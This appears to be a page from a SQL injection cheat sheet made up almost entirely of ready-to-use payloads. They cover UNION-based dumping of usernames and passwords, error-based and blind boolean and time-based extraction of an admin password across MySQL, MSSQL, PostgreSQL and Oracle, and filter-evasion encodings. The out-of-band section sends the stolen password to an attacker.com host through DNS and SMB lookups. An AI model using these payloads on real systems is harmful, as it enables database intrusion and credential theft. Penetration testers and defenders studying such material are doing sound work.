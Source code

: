 ```sql
' UNION SELECT NULL,CONCAT(username,':',password) FROM users-- -
```

#### **Error-Based Attacks**
```sql
/* MySQL */
' AND ExtractValue(1, CONCAT(0x3a, @@version))-- -
' AND UpdateXML(1, CONCAT(0x3a, @@version), 1)-- -

/* MSSQL */
' AND (SELECT * FROM (SELECT CAST(@@version AS INT))=1-- -

/* PostgreSQL */
' AND CAST((SELECT version()) AS INTEGER)=1-- -
```

#### **Blind Boolean-Based Attacks**
```sql
' AND SUBSTRING(@@version,1,1)='5'-- -
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'-- -
' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='admin')=97-- -
```

#### **Time-Based Blind Attacks**
```sql
' AND IF(SUBSTRING(@@version,1,1)='5',SLEEP(5),0)-- -
'; IF (SELECT COUNT(*) FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')=1 WAITFOR DELAY '00:00:05'-- -
```

#### **Out-of-Band Exploitation**
```sql
/* DNS Exfiltration (Oracle) */
' AND (SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='admin')||'.attacker.com/"> %remote;]>'),'/l') FROM dual)-- -

/* MSSQL */
'; EXEC master..xp_dirtree '\\attacker.com\'+(SELECT password FROM users WHERE username='admin')-- -
```

### Bypassing Filters
```sql
/* Case Manipulation */
' UnIoN SeLeCt 1,2,3-- -

/* White Space Bypass */
'UNION/**/SELECT/**/1,2,3-- -

/* Comment Bypass */
'UNI/**/ON SEL/**/ECT 1,2,3-- -

/* URL Encoding */
%27%20UNION%20SELECT%201,2,3--%20-

/* Double URL Encoding */
%2555nion%2553elect

/* Unicode Encoding */
%u0027%u0020UNION%u0020SELECT%u00201,2,3--%u0020-

/* Hex Encoding */
0x27554e494f4e2053454c45435420312c322c332d2d2020

```